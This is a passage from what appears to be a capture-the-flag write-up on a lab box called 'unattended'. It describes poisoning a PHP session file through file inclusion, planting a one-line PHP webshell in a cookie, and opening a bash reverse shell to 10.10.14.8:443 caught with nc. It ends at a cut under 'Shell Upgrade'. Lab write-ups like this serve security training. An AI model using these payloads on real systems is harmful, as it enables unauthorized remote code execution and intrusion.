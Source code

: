 #### PHP Session File

I don’t have a direct way to write a webshell to disk to have it included. However, I can do some log/session poisoning. I’ll write my `php` shell into a cookie so that it poisons the php session data, and read that out of `/var/lib/php/sessions/`. I’ll look at my last successful request and get the `PHPSESSID` cookie value, in my case `6mprk04iu3frud82i1pvnfehl1`. Now I’ll send that injection to repeater and replace `/etc/passwd` with `/var/lib/php/sessions/sess_6mprk04iu3frud82i1pvnfehl1`:

[![PHP session](https://0xdfimages.gitlab.io/img/1561209240007.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1561209240007.png)

I’ve marked in red the included part, which contains the PHPSESSID. If that is set by a cookie, can I set other data there? I’ll add a test cookie:

[![Poisoned PHP session](https://0xdfimages.gitlab.io/img/1561209395830.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1561209395830.png)

It may take a couple page loads for the new cookie to write to the file, but it’s there eventually.

#### Webshell

I’ll add a new cookie:

```

shell=<?php system($_GET['cmd']); ?>

```

I’ll url-encode that and submit a couple times:

[![PHP session with RCE](https://0xdfimages.gitlab.io/img/1561210237340.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1561210237340.png)

#### Shell

Now I can update the `cmd` to `bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'` (url-encoded) and catch a shell with `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.126.
Ncat: Connection from 10.10.10.126:43858.
bash: cannot set terminal process group (605): Inappropriate ioctl for device
bash: no job control in this shell
www-data@unattended:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell Upgrade

